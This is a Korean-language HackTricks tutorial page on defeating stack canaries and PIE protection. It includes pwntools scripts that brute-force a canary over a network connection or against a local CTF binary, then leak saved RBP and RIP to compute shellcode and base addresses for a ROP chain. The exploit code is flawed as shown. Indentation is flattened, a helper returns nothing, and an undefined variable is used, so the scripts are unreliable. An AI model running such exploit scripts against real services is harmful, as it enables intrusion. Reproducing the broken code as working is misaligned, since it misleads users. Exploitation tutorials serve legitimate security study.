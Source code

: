 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>


**캐너리와 PIE (Position Independent Executable)로 보호된 이진 파일을 다루고 있다면, 우회하는 방법을 찾아야 할 것입니다.**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
**`checksec`** 명령어는 이진 파일이 캐너리로 보호되었는지를 찾지 못할 수 있습니다. 특히 정적으로 컴파일된 경우에는 함수를 식별할 수 없기 때문입니다.\
하지만, 함수 호출 시작 시 스택에 값이 저장되고 이 값이 종료 전에 확인되는 경우에는 수동으로 확인할 수 있습니다.
{% endhint %}

# 캐너리 무력화하기

간단한 캐너리를 우회하는 가장 좋은 방법은 이진 파일이 **새로운 연결을 설정할 때마다 자식 프로세스를 포크하는 프로그램**인 경우입니다(네트워크 서비스). 왜냐하면 연결할 때마다 **동일한 캐너리가 사용**되기 때문입니다.

그런 다음, 캐너리를 우회하는 가장 좋은 방법은 그냥 **문자 단위로 무차별 대입(brute-force)하는 것**입니다. 그리고 추측한 캐너리 바이트가 올바른지 확인하기 위해 프로그램이 충돌했는지 또는 정상적인 흐름을 계속하는지 확인할 수 있습니다. 이 예제에서는 함수가 **8바이트 캐너리(x64)**를 무차별 대입하고, 올바른 추측 바이트와 잘못된 바이트를 **서버로부터의 응답**을 확인함으로써 구분합니다(다른 상황에서는 **try/except**를 사용할 수도 있습니다):

## 예제 1

이 예제는 64비트용으로 구현되었지만, 32비트용으로 쉽게 구현할 수 있습니다.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
## 예제 2

이는 32비트를 위해 구현되었지만, 쉽게 64비트로 변경할 수 있습니다.\
또한 이 예제에서는 **프로그램이 먼저 입력의 크기를 나타내는 바이트를 예상**합니다. 그리고 페이로드를 예상합니다.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
# 캐너리 출력하기

캐너리를 우회하는 또 다른 방법은 **출력**하는 것입니다.\
스택 오버플로우에 취약한 **프로그램**이 **스택 오버플로우의 일부를 가리키는 puts 함수를 실행**할 수 있는 상황을 상상해보세요. 공격자는 캐너리의 **첫 번째 바이트가 널 바이트**(`\x00`)이고 나머지 캐너리는 **임의의** 바이트임을 알고 있습니다. 그럼 공격자는 스택을 덮어쓰는 오버플로우를 생성하여 캐너리의 첫 번째 바이트만 남기고 스택을 덮어쓸 수 있습니다.\
그런 다음, 공격자는 페이로드의 중간에 있는 puts 기능을 호출하여 캐너리의 모든 내용(첫 번째 널 바이트 제외)을 **출력**할 수 있습니다.\
이 정보를 통해 공격자는 캐너리를 알고 있는 상태에서 새로운 공격을 **작성하고 전송**할 수 있습니다(동일한 프로그램 세션에서).

당연히, 이러한 전술은 공격자가 자신의 페이로드 내용을 **출력**하여 캐너리를 **유출**하고, 그런 다음 새로운 페이로드를 생성하고(동일한 프로그램 세션에서) **실제 버퍼 오버플로우**를 전송할 수 있어야 한다는 점에서 매우 **제한적**입니다.\
CTF 예시: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

PIE를 우회하기 위해서는 **어떤 주소를 유출**해야 합니다. 그리고 바이너리가 어떤 주소도 유출하지 않는다면 취약한 함수에서 스택에 저장된 **RBP와 RIP를 무차별 대입(brute-force)**하는 것이 가장 좋습니다.\
예를 들어, 캐너리와 PIE를 모두 사용하여 보호된 바이너리의 경우, 캐너리를 무차별 대입한 다음 **다음** 8바이트(x64)는 저장된 **RBP**이고 **다음** 8바이트는 저장된 **RIP**가 될 것입니다.

바이너리에서 RBP와 RIP를 무차별 대입하기 위해, 프로그램이 출력을 하거나 충돌하지 않으면 유효한 추측 바이트라고 판단할 수 있습니다. 캐너리를 무차별 대입하기 위해 제공된 함수와 **동일한 함수**를 사용하여 RBP와 RIP를 무차별 대입할 수 있습니다:
```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
## 베이스 주소 가져오기

PIE를 무력화하기 위해 필요한 마지막 단계는 유출된 주소로부터 유용한 주소를 계산하는 것입니다: **RBP**와 **RIP**입니다.

**RBP**에서는 **스택에 셸을 작성하는 위치를 계산**할 수 있습니다. 이는 스택 내부에 문자열 _"/bin/sh\x00"_을 작성할 위치를 알 수 있는 매우 유용한 정보입니다. 유출된 RBP와 셸코드 사이의 거리를 계산하기 위해, 유출된 RBP 이후에 **브레이크포인트를 설정**하고 **셸코드가 위치한 곳을 확인**한 다음, 셸코드와 RBP 사이의 거리를 계산할 수 있습니다:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP**에서는 **PIE 바이너리의 기본 주소**를 계산할 수 있으며, 이는 **유효한 ROP 체인**을 생성하는 데 필요합니다.\
기본 주소를 계산하려면 `objdump -d vunbinary`를 실행하고 어셈블리의 최신 주소를 확인하십시오:

![](<../../.gitbook/assets/image (145).png>)

이 예제에서는 모든 코드를 찾기 위해 **1바이트와 반만 필요**하다는 것을 알 수 있습니다. 따라서 이 상황에서의 기본 주소는 **유출된 RIP이지만 "000"으로 끝나는 주소**입니다. 예를 들어, _0x562002970**ecf**_가 유출되었다면 기본 주소는 _0x562002970**000**_입니다.
```python
elf.address = RIP - (RIP & 0xfff)
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
